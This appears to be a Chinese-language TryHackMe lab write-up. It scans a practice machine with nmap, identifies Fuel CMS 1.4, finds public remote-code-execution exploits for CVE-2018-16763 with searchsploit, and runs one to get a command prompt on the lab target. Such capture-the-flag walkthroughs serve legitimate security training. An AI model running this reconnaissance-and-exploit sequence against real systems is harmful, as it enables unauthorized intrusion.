 # TryHackMe -- Net Sec Challenge


# THM -- Vulnerability Caspstone

## What is the name of the application running on the vulnerable machine?

先扫一下常规端口：

```shell
┌──(v4ler1an㉿kali)-[~]
└─$ sudo nmap -sV -T4  -Pn  10.10.217.113
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-05 01:33 EST
Nmap scan report for localhost (10.10.217.113)
Host is up (0.36s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.22 seconds
```

80端口和22端口，先看80端口：

```shell
┌──(v4ler1an㉿kali)-[~]
└─$ sudo nmap --script=http-headers -p80 10.10.217.113
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-05 01:35 EST
Nmap scan report for localhost (10.10.217.113)
Host is up (0.43s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-headers:
|   Date: Tue, 05 Mar 2024 06:35:42 GMT
|   Server: Apache/2.4.41 (Ubuntu)
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|
|_  (Request type: HEAD)

Nmap done: 1 IP address (1 host up) scanned in 2.82 seconds
```

运行的Apache服务，直接访问：

```shell
┌──(v4ler1an㉿kali)-[~]
└─$ curl http://10.10.217.113

<!DOCTYPE html>
<html lang="en-US">
<head>
... ...

				<h1>Welcome to Fuel CMS</h1>
				<h2>Version 1.4</h2>
... ...
```

运行的是Fuel CMS，版本为1.4。

## What is the version number of this application?

1.4

## What is the number of the CVE that allows an attacker to remotely execute code on this application?

直接searchsploit搜一下：

```shell
┌──(v4ler1an㉿kali)-[~]
└─$ searchsploit fuel |grep 1.4
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                               | php/webapps/50523.txt
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                                | php/webapps/50477.py
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                      | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                          | php/webapps/48778.txt

┌──(v4ler1an㉿kali)-[~]
└─$ searchsploit -p 47138
  Exploit: fuel CMS 1.4.1 - Remote Code Execution (1)
      URL: https://www.exploit-db.com/exploits/47138
     Path: /usr/share/exploitdb/exploits/linux/webapps/47138.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable

┌──(v4ler1an㉿kali)-[~]
└─$ searchsploit -p 49487
  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (2)
      URL: https://www.exploit-db.com/exploits/49487
     Path: /usr/share/exploitdb/exploits/php/webapps/49487.rb
    Codes: CVE-2018-16763
 Verified: False
File Type: Ruby script, ASCII text

┌──(v4ler1an㉿kali)-[~]
└─$ searchsploit -p 50477
  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (3)
      URL: https://www.exploit-db.com/exploits/50477
     Path: /usr/share/exploitdb/exploits/php/webapps/50477.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
```

看来是CVE-2018-16763。

## What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.

直接利用上面搜到的exp：

```shell
┌──(v4ler1an㉿kali)-[~]
└─$ python3 /usr/share/exploitdb/exploits/php/webapps/50477.py --help
usage: python3 /usr/share/exploitdb/exploits/php/webapps/50477.py -u <url>

fuel cms fuel CMS 1.4.1 - Remote Code Execution Exploit

options:
  -h, --help         show this help message and exit
  -v, --version      show the version of exploit
  -u url, --url url  Enter the url

EXAMPLE - python3 /usr/share/exploitdb/exploits/php/webapps/50477.py -u http://10.10.21.74
┌──(v4ler1an㉿kali)-[~]
└─$ python3 /usr/share/exploitdb/exploits/php/webapps/50477.py -u http://10.10.217.113/
[+]Connecting...
Enter Command $id
system

Enter Command $cd /
system

Enter Command $ls
system
```

执行成功了，但是回显有点问题，跟练习本身无关，不管了。换官方的攻击环境成功拿到flag。
